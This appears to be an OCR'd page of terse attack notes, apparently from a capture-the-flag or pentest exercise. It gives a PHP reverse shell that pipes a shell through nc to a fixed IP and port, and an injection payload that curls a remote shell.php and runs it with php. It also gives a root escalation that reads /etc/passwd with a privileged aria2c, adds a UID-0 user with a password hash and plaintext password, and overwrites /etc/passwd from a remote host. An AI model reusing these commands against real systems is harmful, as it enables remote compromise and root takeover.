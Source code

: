 ```
#Create a php reverse shell (shell.php)

**<?php
    system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.142 9001 >/tmp/f');
?>**

#Curl and listen (Url Encoded)

**' and die(system("curlhttp://$IP/shell.php|php")) or '**
```

```
#Copy /etc/passwd by read as a root

**/usr/bin/aria2c -i /etc/passwd**

#Add user with root rigts in the file

**Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash**

#Upload it inside /etc (must be in /etc directory)

**/usr/bin/aria2c -o passwd "http://<ip>/newpasswd" --allow-overwrite=true**

#Get the shell! 
(Pass : Password@973)
su Tom
```
